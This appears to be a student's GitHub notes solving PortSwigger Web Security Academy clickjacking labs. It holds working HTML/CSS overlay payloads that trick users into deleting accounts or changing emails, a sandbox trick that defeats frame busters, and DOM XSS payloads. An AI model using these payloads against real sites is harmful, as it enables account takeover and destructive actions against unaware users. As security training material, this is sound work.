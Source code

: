 Start off with this 
https://book.hacktricks.xyz/pentesting-web/clickjacking

 **Basic clickjacking with CSRF token protection**

Trick user into clicking on something 
Tricked into deleting a user account 

Used iframe 
Embed html into another html 

From <https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected> 



The goal is to position our "click me" over the delete button so user can be tricked into clicking that button 


```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 490px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ad2002d04993c2f8afe94af00250058.web-security-academy.net/my-account"></iframe>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8ab94205-7f54-4795-8956-602eb58caca3)


 **Clickjacking with form input data prefilled from a URL parameter**


```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0adf00bf0437f56386ebf5f8003a0093.web-security-academy.net/my-account?email=viet@gmail.com"></iframe>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a1d8e1e5-6968-494d-902a-dbc900a5e82a)


Line up click me to the update button

 **Clickjacking with a frame buster script**


An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window: 
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe> 
Both the allow-forms and allow-scripts values permit the specified actions within the iframe but top-level navigation is disabled. This inhibits frame busting behaviors while allowing functionality within the targeted site. 

From <https://portswigger.net/web-security/clickjacking> 



```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 450px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a2e00b703b0c5a0806658b2000b00c5.web-security-academy.net/my-account?email=viet@gmail.com"></iframe>
```
 **Exploiting clickjacking vulnerability to trigger DOM-based XSS**

Trigger an xss on the name box

```
<img src=0 onerror=alert(1)>
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/86a5c928-4ff8-42be-b053-c94c626488c6)






Prefill form with a xss 

```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 410px;
        left: 50px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a9a00750434688a801ad1dc005f0087.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=viet@gmail.com&subject=test&message=test#feedbackResult"></iframe>
```



 **Multistep clickjacking**


```
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500px;
        opacity: 0.1;
        z-index: 2;
    }
    .firstClick, .secondClick {
        position:absolute;
        top: 500px;
        left: 50px;
        z-index: 1;
    }
   .secondClick {
        top: 300px;
        left: 200px;
    }
</style>
<div class="firstClick">Click me</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0a74001403c2b5fbe61f0eac004f004d.web-security-academy.net/my-account/"></iframe>
```


Will have the user click through 2 click me to delete an account
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f1770584-0991-4c9b-82a7-707d7b00bc37)





Clicks are a little off center due to the solved lab
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d75f327f-be39-47ce-9fa3-2e40f76dbe77)


